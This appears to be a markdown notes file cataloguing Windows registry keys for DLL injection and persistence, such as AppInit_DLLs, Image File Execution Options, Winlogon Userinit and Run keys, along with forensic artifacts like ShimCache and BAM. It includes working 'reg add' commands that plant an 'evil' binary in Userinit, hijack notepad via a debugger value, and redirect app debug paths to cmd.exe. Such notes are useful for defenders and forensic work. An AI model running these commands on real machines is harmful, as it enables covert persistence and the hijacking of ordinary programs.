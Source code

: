 
# App init process injection registry keys:

## App init DLLS:
 - HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs
 - HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs
 
 Description: DLLs specified by this value are loaded in all applications with User32.dll linked (very few do not).
 Interestingly, it seems there is another registry value that defines the registry HKLM\Software subbranch whereas App init DLLs should be searched for:
 Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\IniFileMapping\win.ini\Windows\APPINIT_DLLS
 the default value (Win10 x64): SYS:MICROSOFT\\WINDOWS NT\\CURRENTVERSION\\WINDOWS
 
 Also, there is a Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\LoadAppInit_DLLs key (default value 0x0), suggesting a switch for this feature.
 
 External resources: https://support.microsoft.com/en-us/help/197571/working-with-the-appinit-dlls-registry-value
 Remark: What about HKCU?
 
## App cert DLLs
 - HKLM\System\CurrentControlSet\Control\Session Manager\AppCertDlls
 
 Description: DLLs specified by this value are loaded into any application that makes use of the following API functions: CreateProcess, CreateProcessAsUser, CreateProcessWithLoginW, CreateProcessWithTokenW, WinExec
 
 External resources: https://attack.mitre.org/techniques/T1182/
 

# Image file execution options
  - HKLM\Software\Microsoft\Windows NT\currentversion\image file execution options
 
 Description:
 Contains subkeys corresponding to individual executable names, with custom execution options. 
 If "Debugger" option is defined, it points to the binary that is called by the OS instead of the target executable, passing the path to the original executable (along with its command line parameters) as command line parameters (this feature is intended for defining application-custom debugger). Hence, it is a great persistence method.
 
 External resources: 
 https://blogs.msdn.microsoft.com/junfeng/2004/04/28/image-file-execution-options/
 https://support.microsoft.com/en-us/help/238788/how-to-debug-common-gateway-interface-applications-running-under-iis-b
 
 
# Winlogon packages

 reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit
/t REG_SZ /d "C:\Some\Evil\Binary.exe","C:\Windows\system32\userinit.exe"

[HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]
Userinit    REG_SZ    C:\Windows\system32\userinit.exe

 External resources:
 https://docs.microsoft.com/en-us/windows/desktop/SecAuthN/registry-entries
 
 
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Userinit /t REG_SZ /d "c:\users\nina\appdata\local\temp\low\nina.exe","C:\Windows\system32\userinit.exe"


[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce]

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce]


HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

Other, more exotic:
HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Notification Packages
HKLM\SYSTEM\CurrentControlSet\Control\Print\Monitors
HKLM\Software\Microsoft\Windows NT\CurrentVersion\Drivers32
HKLM\SOFTWARE\Classes\Htmlfile\Shell\Open\Command\(Default)
HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\ShellExecuteHooks


 - BAM
BAM is a Windows service that Controls activity of background applications. This service exists in Windows 10 only after Fall Creators update – version 1709 (contains a list of executables run):
HKLM\SYSTEM\CurrentControlSet\Services\bam\UserSettings\{SID}

- RecentApps
Windows 10:
HKCU\Software\Microsoft\Windows\Current Version\Search\RecentApps

- ShimCache:
Last 1024 apps
HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\AppCompatCache

- Image Execution Options
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v "Debugger" /t REG_SZ /d "\"...\path\to\nppLauncher.bat"" /f




[Cortana]
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\PackagedAppXDebug\Microsoft.Windows.Cortana_1.10.7.17134_neutral_neutral_cw5n1h2txyewy /d "C:\windows\system32\cmd.exe"
OR
reg add HKCU\Software\Classes\ActivatableClasses\Package\Microsoft.Windows.Cortana_1.10.7.17134_neutral_neutral_cw5n1h2txyewy\DebugInformation\CortanaUI.AppXy7vb4pc2dr3kc93kfc509b1d0arkfb2x.mca /v DebugPath /d "C:\windows\system32\cmd.exe"

[People app]
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\PackagedAppXDebug\Microsoft.People_10.1807.2131.0_x64__8wekyb3d8bbwe /d "C:\windows\system32\cmd.exe"
OR
reg add HKCU\Software\Classes\ActivatableClasses\Package\Microsoft.People_10.1807.2131.0_x64__8wekyb3d8bbwe\DebugInformation\x4c7a3b7dy2188y46d4ya362y19ac5a5805e5x.AppX368sbpk1kx658x0p332evjk2v0y02kxp.mca /v DebugPath /d "C:\windows\system32\cmd.exe"




People app:

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\PackagedAppXDebug\Microsoft.People_10.1807.2131.0_x64__8wekyb3d8bbwe /d "C:\windows\system32\cmd.exe"
OR
reg add HKCU\Software\Classes\ActivatableClasses\Package\Microsoft.People_10.1807.2131.0_x64__8wekyb3d8bbwe\DebugInformation\x4c7a3b7dy2188y46d4ya362y19ac5a5805e5x.AppX368sbpk1kx658x0p332evjk2v0y02kxp.mca /v DebugPath /d "C:\windows\system32\cmd.exe"





